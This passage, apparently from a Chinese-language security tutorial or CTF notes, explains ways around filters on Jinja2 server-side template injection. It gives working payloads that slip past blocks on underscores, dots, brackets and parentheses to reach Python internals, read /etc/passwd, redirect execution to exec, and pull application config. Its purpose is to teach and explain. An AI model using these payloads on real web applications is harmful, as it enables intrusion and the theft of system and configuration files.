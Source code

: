 #### <a class="reference-link" name="%E8%BF%87%E6%BB%A4%E5%8F%8C%E4%B8%8B%E5%88%92%E7%BA%BF"></a>过滤双下划线

同样利用`request.args`属性

```
`{``{` ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() `}``}`&amp;class=__class__&amp;mro=__mro__&amp;subclasses=__subclasses__
```

```
#GET:
`{``{` ''[request.value.class][request.value.mro][2][request.value.subclasses]()[40]('/etc/passwd').read() `}``}`

#POST:
class=__class__&amp;mro=__mro__&amp;subclasses=__subclasses__
```

#### 过滤`.`/`[]`

这里对获取元素方法属性进行了限制，那么我们可以使用上面Trick中介绍的获取对象元素的几种方式进行绕过

比如用原生JinJa2函数`|attr()`

将`request.__class__`改成`request|attr("__class__")`

#### <a class="reference-link" name="%E5%90%8C%E6%97%B6%E7%BB%95%E8%BF%87%E4%B8%8B%E5%88%92%E7%BA%BF%E3%80%81%E4%B8%8E%E4%B8%AD%E6%8B%AC%E5%8F%B7"></a>同时绕过下划线、与中括号

综合之前的Trick利用就行

```
`{``{`()|attr(request.values.name1)|attr(request.values.name2)|attr(request.values.name3)()|attr(request.values.name4)(40)('/etc/passwd')|attr(request.values.name5)()`}``}`post:name1=__class__&amp;name2=__base__&amp;name3=__subclasses__&amp;name4=pop&amp;name5=read
```

#### <a class="reference-link" name="%E8%BF%87%E6%BB%A4%E5%9C%86%E6%8B%AC%E5%8F%B7"></a>过滤圆括号
<li>对函数执行方式进行重载,比如将<br>`request.__class__.__getitem__=__builtins__.exec;`<br>
那么执行`request[payload]`时就相当于`exec(payload)`了</li>
- 使用lambda表达式进行绕过
### <a class="reference-link" name="%E5%AF%B9%E8%B1%A1%E5%B1%82%E9%9D%A2%E7%A6%81%E7%94%A8"></a>对象层面禁用
- `set `{``}`=None`
只能设置该对象为None，通过其他引用同样可以找到该对象

```
`{``{`% set config=None%`}``}` -&gt; `{``{`url_for.__globals__.current_app.config`}``}`
```
- del
```
del __builtins__.__dict__['__import__']
```
